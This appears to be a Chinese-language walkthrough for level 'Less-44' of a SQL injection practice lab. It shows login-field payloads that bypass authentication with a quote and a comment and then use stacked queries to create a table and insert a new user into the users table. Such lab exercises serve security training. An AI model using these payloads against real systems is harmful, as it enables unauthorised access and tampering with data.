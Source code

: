 ```yaml
---
title: Less - 44
date: 2023-03-22T11:49:44Z
lastmod: 2023-03-22T12:33:36Z
---
```


# Less - 44

---

# 通关教程

---

## 1、判断闭合

---

```http
admin# #登入失败
admin'# #登入成功
```

​![image](assets/image-20230322115536-stqolfg.png)​

---

## 2、创建一张表

---

```http
a';create table test like users;#
```

​![image](assets/image-20230322115741-ylpxjnj.png)​

​![image](assets/image-20230322115751-ycycuaf.png)​

---

## 3、创建一个新的用户

---

```http
a';insert into users values(18,'cmx','cmx');#
```

​![image](assets/image-20230322123321-79vradz.png)​

​![image](assets/image-20230322123334-3b8kfe2.png)​

‍
